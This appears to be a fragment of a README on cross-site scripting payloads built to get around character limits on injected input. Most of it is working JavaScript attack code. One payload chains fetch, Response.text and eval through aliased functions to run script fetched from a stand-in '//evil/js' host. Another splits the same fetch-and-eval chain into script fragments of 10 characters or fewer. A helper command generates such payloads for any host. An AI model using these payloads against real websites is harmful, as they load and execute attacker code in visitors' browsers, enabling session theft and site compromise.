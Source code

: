 ```
p=Promise
P=p.prototype
t=P.then
tc=t.call
T=tc.bind(t)
r=Response
R=r.prototype
z=R.text
zc=z.call
Z=zc.bind(z)
E=eval
j='//evil/js'
J=fetch(j)
T(T(J,Z),E)
```

##### Usecase: character limit is &gt;= 10
* *Works with arbitrary payloads*
* *No additional wrapping needed*
* *`<script>` must not be blocked and must not appear between the payloads*
* *Payloads order on page __does__ matter.*

```
<script>/*
*/X="f"+/*
*/"etc"+/*
*/"h('"+/*
*/"//e"+/*
*/"vil"+/*
*/"/js"+/*
*/"')."+/*
*/"the"+/*
*/"n(r"+/*
*/"=>r"+/*
*/".te"+/*
*/"xt("+/*
*/").t"+/*
*/"hen"+/*
*/"(ev"+/*
*/"al)"+/*
*/"))"/*
*/;eval/*
*/(X);
</script>
```

**How to modify it:**

Replace the encoded payload above with the output from:

```
python2 fetch_helpers.py -x '//myown/external/js' -e split_to_len --maxLen 10
```
